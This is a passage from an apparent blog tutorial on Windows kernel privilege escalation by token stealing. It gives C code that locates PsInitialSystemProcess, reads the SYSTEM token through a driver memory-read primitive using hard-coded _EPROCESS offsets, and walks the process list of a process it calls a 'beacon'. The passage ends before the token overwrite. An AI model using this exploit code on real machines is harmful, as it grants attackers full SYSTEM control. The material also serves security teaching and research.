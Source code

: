 [Here's](https://raw.githubusercontent.com/tijme/kernel-mii/master/headers/imports.h){:target="_blank"}{:rel="noopener noreferrer"} an example header file for various Windows API function definitions.

#### 3.7 Privilege Escalation

The last thing we need to do is perform the actual privilege escalation on the current process. We'll do this as follows.

1. Find `PsInitialSystemProcess` offset in `ntoskrnl.exe`.
2. Take note of `PsInitialSystemProcess's` token.
3. Iterate the `_EPROCESS` chain until our own process is found.
4. Overwrite our token with `PsInitialSystemProcess's` token.

**Find `PsInitialSystemProcess` offset in `ntoskrnl.exe`**

The first step can be achieved by retrieving the variable `PsInitialSystemProcess` from `ntoskrnl.exe` using `GetProcAddress(...)`.

{% highlight c %}
HMODULE hNtOsKrnl = LoadLibraryExW(L"ntoskrnl.exe", NULL, DONT_RESOLVE_DLL_REFERENCES);
if (!hNtOsKrnl) {
    PRINT_ERROR("Cannot load 'ntoskrnl.exe'.");
    CloseHandle(hDevice);
    return;
}

size_t systemProcessOffset = (uint8_t*) ((size_t) GetProcAddress(hNtOsKrnl, "PsInitialSystemProcess") - (size_t) hNtOsKrnl);
PRINT_DEBUG("Identified 'PsInitialSystemProcess' at 0x%x.", systemProcessOffset);
{% endhighlight %}

**Take note of `PsInitialSystemProcess's` token.**

The second step can be achieved by obtaining the kernel base (for which there are [various](https://github.com/tijme/kernel-mii/blob/master/KernelMii.c#L175){:target="_blank"}{:rel="noopener noreferrer"} options), and then using the base and system process offset to find the system process, and then its token.

{% highlight c %}
uint8_t* systemProcessPointerAddress = (uint8_t*) ((size_t) kernelBase + systemProcessOffset);
PRINT_DEBUG("Identified system process pointer address at %p.", systemProcessPointerAddress);

uint8_t* systemProcessAddress = memoryRead(hDevice, systemProcessPointerAddress);
PRINT_DEBUG("Identified system process address at %p.", systemProcessAddress);

uint8_t* systemProcessToken = (uint8_t*) ((size_t) memoryRead(hDevice, systemProcessAddress + 0x4b8) & 0xfffffffffffffff0);
PRINT_DEBUG("Identified system process token at %p.", systemProcessToken);
{% endhighlight %}

**Iterate the `_EPROCESS` chain until our own process is found**

To find our own process, we find the active process linked list in the system's `_EPROCESS`. We iterate the list until the `_EPROCESS` ID equals our own process ID.

{% highlight c %}
uint8_t* activeProcessLinks = memoryRead(hDevice, systemProcessAddress + 0x448);
PRINT_DEBUG("Identified active process links at %p.", activeProcessLinks);

while (true) {
    if (memoryRead(hDevice, activeProcessLinks - 8) == GetCurrentProcessId()) {
        uint8_t* currentProcess = activeProcessLinks - 0x448;
        PRINT_DEBUG("Found current process (beacon) at %p.", currentProcess);
    }

    activeProcessLinks = memoryRead(hDevice, activeProcessLinks);
}
{% endhighlight %}
